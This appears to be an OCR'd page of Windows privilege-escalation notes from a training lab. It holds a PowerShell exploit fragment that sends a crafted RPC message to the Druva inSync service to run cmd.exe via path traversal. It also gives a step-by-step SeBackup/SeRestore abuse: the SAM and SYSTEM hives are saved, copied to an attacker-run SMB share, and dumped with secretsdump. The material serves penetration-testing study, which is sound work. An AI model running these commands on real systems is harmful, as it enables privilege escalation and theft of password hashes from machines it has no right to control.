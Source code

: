 $header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)

8. User privileges

# check privileges
# List of all privileges: https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants
# Check privileges for escalation: https://github.com/gtworek/Priv2Admin
whoami /priv

# Privilege: SeBackup / SeRestore

# Backup SAM and system hashes
reg save hklm\system C:\Users\THMBackup\system.hive
reg save hklm\sam C:\Users\THMBackup\sam.hive



# Copy hive files to our own machine

# Start SMB share on our own machine
mkdir share
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share

# Copy files from target machine
C:\> copy C:\Users\THMBackup\sam.hive \\10.2.18.222\public\
C:\> copy C:\Users\THMBackup\system.hive \\10.2.18.222\public\

# retrieve password hashes
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
